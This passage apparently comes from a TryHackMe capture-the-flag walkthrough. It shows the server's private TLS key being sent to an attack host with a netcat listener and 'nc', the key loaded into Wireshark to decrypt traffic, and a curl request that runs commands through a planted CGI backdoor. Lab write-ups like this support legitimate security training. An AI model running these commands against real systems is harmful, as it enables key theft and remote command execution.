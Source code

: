 ```bash
        SSLCertificateKeyFile /etc/apache2/certs/apache.key
        ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
        AddHandler cgi-script .cgi .py .pl
        DocumentRoot /usr/lib/cgi-bin/
        <Directory "/usr/lib/cgi-bin">
                AllowOverride All 
                Options +ExecCGI -Multiviews +SymLinksIfOwnerMatch
                Order allow,deny
                Allow from all
        </Directory>
</VirtualHost>
```

Once we have the location of the server's key, we can send it to our attack host and import it into Wireshark.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/WhyHackMe/Misc File]
└─$ nc -lvnp 8000 >  apache.key
listening on [any] 8000 ...
```

```bash
jack@ubuntu:/opt$ nc -q 0 10.21.68.180 8000 < /etc/apache2/certs/apache.key
```

We can go to Edit -> Preferences -> Protocols -> TLS -> RSA keys list, click on edit, and import the key under the Key File column. We will notice that cleartext HTTP traffic will be visible in Wireshark.
![](/assets/img/posts/walthrough/tryhackme/2024-10-26-whyhackme/wireshare-2.png)

Lines 48 and 69 look interesting since they contain the GET request used by attackers to access their backdoor. We can try to access this backdoor to check if it is still present.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/WhyHackMe/Misc File]
└─$ curl --insecure 'https://10.10.141.69:41312/cgi-bin/5UP3r53Cr37.py?key=<REDACTED>&cmd=id'       

<h2>uid=33(www-data) gid=1003(h4ck3d) groups=1003(h4ck3d)
<h2> 
```
